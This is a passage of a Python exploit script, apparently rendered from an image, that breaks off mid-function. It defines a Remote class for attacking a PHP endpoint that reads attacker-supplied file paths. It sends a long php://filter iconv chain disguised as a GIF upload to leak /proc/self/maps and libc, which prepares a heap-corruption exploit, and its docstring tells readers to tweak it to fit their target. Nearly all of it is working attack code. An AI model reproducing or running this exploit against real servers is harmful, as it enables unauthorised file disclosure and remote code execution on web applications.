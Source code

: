 ```python
import urllib.parse

HEAP_SIZE = 2 * 1024 * 1024
BUG = "劄".encode("utf-8")


class Remote:
    """A helper class to send the payload and download files.
    
    The logic of the exploit is always the same, but the exploit needs to know how to
    download files (/proc/self/maps and libc) and how to send the payload.
    
    The code here serves as an example that attacks a page that looks like:
    
    ```php
    <?php
    
    $data = file_get_contents($_POST['file']);
    echo "File contents: $data";
    ```
    
    Tweak it to fit your target, and start the exploit.
    """

    def __init__(self, url: str) -> None:
        self.url = url
        self.session = Session()
        self.session.proxies = {"http":"http://127.0.0.1:8080"}

    def send(self, path: str) -> Response:
        """Sends given `path` to the HTTP server. Returns the response.
        """

        GIF_CHAIN = "php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource="
        data = {
            "action":"upload_image_from_url", 
            "url": urllib.parse.quote_plus(GIF_CHAIN + path), 
            "id":1, 
            "accepted_files":"image/gif"
        }

        return self.session.post(self.url, data=data)
        
    def download(self, path: str) -> bytes:
        """Returns the contents of a remote file.
        """
        response = self.send(path)
        url = response.json()["response"]
        if not url.startswith("http"):
```